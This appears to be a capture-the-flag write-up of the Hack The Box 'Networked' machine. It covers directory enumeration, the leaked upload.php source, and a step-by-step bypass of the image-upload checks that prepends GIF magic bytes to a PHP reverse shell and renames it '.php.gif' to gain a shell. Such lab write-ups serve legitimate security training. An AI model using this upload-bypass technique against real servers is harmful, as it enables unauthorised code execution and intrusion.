








# 10 - Web Service




# gobuster

```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked]
└──╼ $ gobuster dir -u 10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```


# backup.tar


# Extract tar
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/backup]
└──╼ $ tar xvf backup.tar 
index.php
lib.php
photos.php
upload.php
```
# upload.php


# source code of upload.php
```
if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";
```

* The first check is performed on the content, the second check is performed on the filename. The webserver wants image files with certain image extensions. By altering just the magic bytes of a file, we can make a reverse shell seem like a gif file
https://en.wikipedia.org/wiki/Media_type
https://en.wikipedia.org/wiki/List_of_file_signatures
* Error messages look almost the same. The first check errors out with a period at the end. `Invalid image file.` We will know at which check we failed.


# php-reverse-shell.php
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ file reverse.php 
reverse.php: PHP script, ASCII text
```

# GIF
GIF magic bytes are ascii characters and ascii characters don't cause any encoding problem.





# File Check
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ file reverse.php 
reverse.php: GIF image data, version 87a, 16188 x 26736
```

File type is completely changed because of the magic bytes. Also file extension has to change from php to gif for the second check.
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ mv reverse.php reverse.php.gif
```

# File uploaded



# Visiting photos.php gives us a shell


